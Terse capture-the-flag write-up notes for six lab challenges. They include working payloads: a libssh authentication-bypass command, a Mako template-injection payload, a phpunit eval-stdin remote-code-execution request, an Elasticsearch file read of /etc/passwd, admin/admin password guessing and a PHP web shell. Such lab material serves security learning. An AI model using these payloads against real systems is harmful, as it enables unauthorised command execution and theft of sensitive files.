 # CyberSecurity


libssh
Flag format: CTF{sha256}
Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.
libssh is a C library that enables you to write a program that uses the SSH protocol. With it, you can remotely execute programs, transfer files, or use a secure and transparent tunnel for your remote programs.
using Nmap to scan the port 
nmap –sV –sC –p port ip -Pn
after scanning we can use CVE-2018-10993 libSSH authentication bypass exploit
cve-2018-10993.py ip -p port -31367 -c "cd ..;cat flag.txt"
ctf
shark
Flag format: CTF{sha256}
Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.
curl is a command-line tool for getting or sending data including files using URL syntaxi
using curl we can find out that the website is uisng Werkzeug web application library
we can use Server-Side Template Injection and send MAKO payload using burp suite
name=<%
<%
import os
x=os.popen('cat flag').read()
%>
${x}
ctf
nodiff-backdoor
Flag format: CTF{sha256}
Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.
dirsearch is An advanced command-line tool designed to brute force directories and files in webservers
using dirsearch dirsearch -u ip we can see backup.zip file
using wget command we can dowload //backup.zip
if we search this file, we can find functions with vulnerabilities,
after finding vulnerability we can use the backdoor to get the flag by using /?welldone=knockknock&shazam=id
ctf
elastic
there is a vulnerabilty we can find using searchsploit elasticsearch 
CVE-2015-5531- Arbitrary file Vulnerability. 
https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py
exploit.py ip /etc/passwd
php-unit
using dirsearch we can find vulnerable files dirsearch.py -u ip -w ./db/dicc.txt
phpunit/phpunit: 5.6.2 has vulnerabilty
using burp send request to /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
using command we can retrieve the flag <?php system('cat /flag.txt')?>
bolt
/bolt/login
guess password admin admin
we can upload file but to run php command it has to be uploaded using another format
access cmd with <?php echo system($_GET['cmd']);?> command
cmd=cat%20/flag.txt
flag

























